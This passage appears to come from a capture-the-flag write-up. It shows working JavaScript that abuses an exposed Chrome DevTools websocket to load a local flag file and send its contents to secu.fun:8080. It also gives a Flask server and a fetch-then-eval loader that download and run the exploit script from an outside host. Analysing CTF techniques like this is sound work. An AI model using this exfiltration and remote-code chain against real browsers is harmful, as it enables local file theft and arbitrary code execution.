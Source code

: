 ```js
function LFIfromWS(targetWebSocketUrl) {
    // Create a websocket in our site and exploit it to access file:// and then leak the FS ! 
    const ws = new WebSocket(targetWebSocketUrl);
    fetch(`http://secu.fun:8080/?c=websocket+actived`)
    ws.onopen = function(event) {
        console.log('WebSocket connection established.');
        ws.send(JSON.stringify({ id: 0, method: 'Page.navigate', params: { url: 'file:///root/flag2.txt' } })); //Load file or folder
        setTimeout(() => {ws.send(JSON.stringify({ id: 1, method: 'Runtime.evaluate', params: { expression: 'fetch(`http://secu.fun:8080/?c=${btoa(encodeURIComponent(document.body.innerHTML))}`)' } }))}, 2000);
    };
}

const targetPageUrl = 'https://secu.fun/exploit';

window.open(targetPageUrl, '_blank'); // This will be our exploit page, must not be empty

setTimeout(() => { // During Chrome restart, devtool port will change and can be long
    fetchAndUsePort();
}, 2000);
```

---
## 👑 - Final payload

No way we can pass all this javascript into the `?q=` argument (more than **98000** caracters when encoded). I opted for a rather disgusting solution, but functional and practical.

Setup a flask server without CORS and share the js exploit :

```python
from flask import Flask, send_from_directory, make_response
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/payload')
def serve_js():
    response = make_response(send_from_directory('static', 'exploit.js'))
    return response

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```

Make javascript to get & execute the payload :
```js
fetch("http://secu.fun:5000/payload").then((response) => response.text()).then((text) => eval(text))
```
